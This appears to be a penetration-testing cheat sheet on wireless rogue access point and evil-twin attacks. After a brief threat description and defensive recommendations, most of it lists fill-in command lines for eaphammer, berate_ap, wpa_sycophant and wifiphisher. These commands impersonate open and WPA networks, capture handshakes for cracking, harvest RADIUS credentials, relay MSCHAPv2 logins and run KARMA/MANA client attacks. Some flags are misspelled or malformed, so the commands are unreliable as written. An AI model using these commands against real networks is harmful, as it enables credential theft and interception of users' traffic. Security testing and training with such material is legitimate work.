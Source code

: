 # Open Network Impersonation (Client Attacks)
An attacker discovered an open network that is currently in use. Open networks pose a significant security risk due to their lack of integrity assurance. An attacker can impersonate the open network, luring users into the attacker's network. An attacker can also conduct a DoS attack against the corporate network, which will cause the targeted devices to seek out alternative networks to connect to, leading the victim devices to connect to the attacker's imposter network. A Rogue AP refers to an access point installed on a secure network without the explicit permission of a system administrator. Such devices can pose a severe security threat, as anyone accessing the premises may inadvertently or intentionally install a low-cost wireless AP, allowing unauthorized parties to access the network. 

Recommendation:
To compensate for the lack of Layer 2 security, organizations need to implement more robust defenses at the upper layers. One way to limit the SSIDs that client devices connect to is by utilizing Group Policy functions and forbidding the connection to the 'ANY' SSID. By doing so, end-users won't be able to connect to wireless networks that are not considered trustworthy. Educating users on the significance of confirming the identity of digital certificates before supplying sensitive information, ensuring that the root or issuing authority for the digital certificate is trusted.

## Rogue AP Process:

    1. Check whether SSID is Visible or not
    2. Sniff for IP range if SSID is visible then check the status of MAC Filtering.
    3. If MAC filtering is enabled then spoof the MAC Address by using tools such as SMAC
    4. Try to connect to AP using IP within the discovered range.
    5. If SSID is hidden then discover the SSID using Aircrack-ng and follow the procedure of visible SSID which was declared above.

### Basic Open Hotspot
    $ berate_ap  <interface_AP> <interface_internet> <SSID>
    
### Open Network Evil Twin
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>
     
Could use the following tools: airgeddon.sh, fluxion.sh, wifipumpkin3

### WPA/WPA2-Personal Evil Twin
   WPA Passphrase Known:
   
       $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk \ --essid <SSID> --wpa-passphrase <passphrase>
        
   WPA Passphrase Unknown:
   
    1. Spawn Open Network Evil Twin instead to attack clients (e.g. Phishing attack to retrieve Passphrase) 
    2. Capture WPA (half) Handshake of connecting clients & Cracking
        $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk \ --essid <SSID> --wpa-passphrase randompassphrase --capture-wpa-handhshake

### WPA/WPA2-Enterprise Evil Twin
   RADIUS Credentials Unknown:
   
    # RADIUS Credentials Stealing
        Possible if EAP method does not use client-certificate for client authentication.
            $ eaphammer --cert-wizard
            $ eaphammer -i wlan0 --channel --auth wpa-eap \ --essid <SSID> --creds
    
    # EAP (MSCHAPv2) Relay
        Possible if target network uses EAP method with MSCHAPv2 for client authentication.
            $ berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout <file_captured_creds>\ <interface_AP> <interface_internet> <SSID>
            $ wpa_sycophant.sh -c wpa_sycophant_example.conf -i <interface>

   RADIUS Credentials Known:
   
    $ ehdb --add --identity <username> --password <password> # Add credentials in db
    $ ehdb --add --identity <username> --nt-hash <ntlm_hash> # Add creds with NTLM hash in db
    $ eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap \ --essid <SSID_corporate_wifi>

### 802.11 Network Selection Algorithms Abuse (for Open Network)

Abuse clients passive scanning with known Beacons Attack:
            
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana –known-beacons

Abuse clients active probing:

    # KARMA Attack (outdated) By default with wifiphisher  
    $ sudo wifiphisher
    
    # MANA Attack (KARMA improvement)    
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana
    
    # Loud MANA (MANA Improvement) 
    $ eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID> --mana –loud
